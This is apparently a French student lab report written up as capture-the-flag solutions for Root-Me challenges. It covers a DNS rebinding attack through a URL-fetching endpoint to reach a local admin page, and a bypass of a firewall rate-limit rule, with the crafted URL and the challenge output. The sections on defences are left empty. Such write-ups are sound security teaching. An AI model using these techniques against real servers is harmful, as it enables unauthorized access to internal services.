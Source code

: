 # TP6 : Un peu de root-me

## Sommaire

- [TP6 : Un peu de root-me](#tp6--un-peu-de-root-me)
  - [Sommaire](#sommaire)
  - [I. DNS Rebinding](#i-dns-rebinding)
  - [II. Netfilter erreurs courantes](#ii-netfilter-erreurs-courantes)
  - [III. ARP Spoofing Ecoute active](#iii-arp-spoofing-ecoute-active)
  - [IV. Bonus : Trafic Global System for Mobile communications](#iv-bonus--trafic-global-system-for-mobile-communications)

## I. DNS Rebinding

🌞 **Write-up de l'épreuve**

On utilise [ce site](https://lock.cmpxchg8b.com/rebinder.html) pour mettre en ligne un serveur DNS avec les paramètres :

- A : 127.0.0.1
- B : 8.8.8.8

On obtient l'url suivante : `7f000001.08080808.rbndr.us`.

En effectuant une requête sur le site du challenge ou trouve que l'url pour faire une requête est : `http://challenge01.root-me.org:54022/grab?url=7f000001.08080808.rbndr.us:54022/admin`.

Puis [ce script](./Scripts/dns.py) va envoyer des requêtes en boucles jusqu'à obtenir le code source de la page admin :

```bash
$ python3 netfilter.py           
b'\n        <html>\n            <head>\n                <title>Admin page</title>\n                <link rel="stylesheet" href="/static/bootstrap.min.css">\n            </head>\n            <body style="background:pink">\n                <br/>\n                <h1 class="d-flex justify-content-center">Well done!</h1>\n                <h3 class="d-flex justify-content-center">Have a cookie. Admins love cookies.</h1>\n                <h6 class="d-flex justify-content-center">Flag: [coucou toi le flag est caché]\n</h6>\n                <div class="d-flex justify-content-center">\n                    <img src="/static/cookie.png"/>\n                </div>\n            </body>\n        </html>\n    '
```

🌞 **Proposer une version du code qui n'est pas vulnérable**

## II. Netfilter erreurs courantes

🌞 **Write-up de l'épreuve**

On a [ce fichier](./Resources/fw.sh) de configuration.

En le lisant on trouve ces lignes :

```bash
IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 20 -j LOG --log-prefix 'FW_FLOODER '
IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 20 -j DROP
```

Dans lequel l'administrateur a mis une limitte de flood à 20 requêtes toutes les 3 secondes.

On utilise donc [ce script](./Scripts/netfilter.py) pour envoyer 21 requêtes à la page d'adminisatrateur et afficher la réponse de la dernière :

```bash
$ python3 netfilter.py 
b"\nNicely done:)\n\nThere are probably a few things the administrator was missing when writing this ruleset:\n\n    1) When a rule does not match, the next one is tested against\n\n    2) When jumped in a user defined chain, if there is no match, then the\n       search resumes at the next rule in the previous (calling) chain\n\n    3) The 'limit' match is used to limit the rate at which a given rule can\n       match: above this limit, 1) applies\n\n    4) When a rule with a 'terminating' target (e.g.: ACCEPT, DROP...) matches\n       a packet, then the search stops: the packet won't be tested against any\n       other rules\n    \n\n\n\nThe flag is: [coucou toi le flag est caché]\n\n"
```

🌞 **Proposer un jeu de règles firewall**

## III. ARP Spoofing Ecoute active

🌞 **Write-up de l'épreuve**

🌞 **Proposer une configuration pour empêcher votre attaque**

## IV. Bonus : Trafic Global System for Mobile communications

⭐ **BONUS : Write-up de l'épreuve**
